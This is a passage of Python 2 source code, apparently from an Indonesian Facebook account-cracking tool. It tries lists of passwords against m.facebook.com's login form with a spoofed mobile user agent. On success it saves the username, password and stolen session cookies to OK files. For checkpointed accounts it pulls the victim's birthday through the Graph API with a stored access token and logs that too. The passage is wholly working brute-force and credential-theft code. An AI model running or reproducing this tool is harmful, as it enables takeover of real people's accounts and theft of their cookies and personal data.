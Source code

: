                     cp_ttl = requests.get('https://graph.facebook.com/%s?access_token=%s' % (user, sultani)).json()['birthday']
                    month, day, year = cp_ttl.split('/')
                    month = bulan_ttl[month]
                    print '\r%s[MKING-CP] %s | %s | %s %s %s %s' % (K, user, pw, day, month, year, N)
                    wrt = ' [\xc3\x97] %s|%s|%s %s %s' % (user, pw, day, month, year)
                    cp.append(wrt)
                    open('saved/CP-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)
                    break
                except (KeyError, IOError):
                    month = ''
                    day = ''
                    year = ''
                except:
                    pass

                print '\r%s[MKING-CP] %s | %s %s' % (K, user, pw, N)
                wrt = ' [\xc3\x97] %s|%s' % (user, pw)
                cp.append(wrt)
                open('saved/CP-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)
                break
                continue

        loop += 1

    def __mfb__(self, user, __yan__):
        global loop
        (
         sys.stdout.write('\r[%s\x1b[1;92mR\xe2\x99\xa1S%s] [crack] %s/%s -> \x1b[1;92mOK\x1b[1;97m-:\x1b[1;92m%s - \x1b[1;93mCP\x1b[1;97m-:\x1b[1;93m%s \x1b[1;97m' % (O, N, loop, len(self.id), len(ok), len(cp))),)
        sys.stdout.flush()
        for pw in __yan__:
            pw = pw.lower()
            try:
                os.mkdir('saved')
            except:
                pass

            try:
                _sultani = open('mking.txt', 'r').read()
            except (KeyError, IOError):
                _sultani = 'Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'

            ses = requests.Session()
            ses.headers.update({'Host': 'm.facebook.com', 'cache-control': 'max-age=0', 'upgrade-insecure-requests': '1', 'user-agent': _sultani, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8', 'accept-encoding': 'gzip, deflate', 'accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'})
            p = ses.get('https://m.facebook.com')
            b = ses.post('https://m.facebook.com/login.php', data={'email': user, 'pass': pw, 'login': 'submit'})
            if 'c_user' in ses.cookies.get_dict().keys():
                kuki = (';').join([ '%s=%s' % (key, value) for key, value in ses.cookies.get_dict().items() ])
                print '\r%s[MKING-OK] %s|%s|%s %s' % (H, user, pw, kuki, N)
                wrt = ' [\xe2\x9c\x93] %s|%s|%s' % (user, pw, kuki)
                ok.append(wrt)
                open('saved/OK-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)
                break
                continue
            elif 'checkpoint' in ses.cookies.get_dict().keys():
                try:
                    sultani = open('.login.txt').read()